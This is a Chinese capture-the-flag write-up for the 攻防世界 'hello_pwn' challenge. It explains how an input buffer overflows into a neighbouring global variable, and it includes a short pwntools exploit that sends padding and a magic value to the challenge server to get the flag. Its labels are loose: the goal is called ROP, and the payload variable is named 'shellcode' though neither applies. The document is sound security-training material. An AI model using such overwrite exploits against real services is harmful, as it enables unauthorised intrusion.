



# 攻防世界: hello_pwn

## **[目标]**
栈溢出 ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 从ida中查看：



- 将键盘中的输入写到 unk_601068 的地址上，如果 dword60106c 的值等于1853186401 的话就会执行方法 sub_400686()。方法内容如下：




- 也就是执行这个方法就能得到flag。那如何让 dword60106c 等于 1853186401（将光标放在数字上，再按键盘上的h就能进行十进制和十六进制的转换）呢？查看一下 dword60106c的位置。



- ！我们发现 unk_601068 的地址与 dword60106c 相连，在输入 unk_601068 的时候，可以将 dword60106c 的值覆盖成我们需要的值，而且允许输入的长度是完全能覆盖到的。

完整的exp如下：

```python
from pwn import *

context.log_level = 'debug'
p = remote('10.10.49.194', 30153)

p.recvuntil('lets get helloworld for bof\n')
padding = "A"*4

count = p64(1853186401)
shellcode = padding + count

p.send(shellcode)

print p.recv()

```
## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)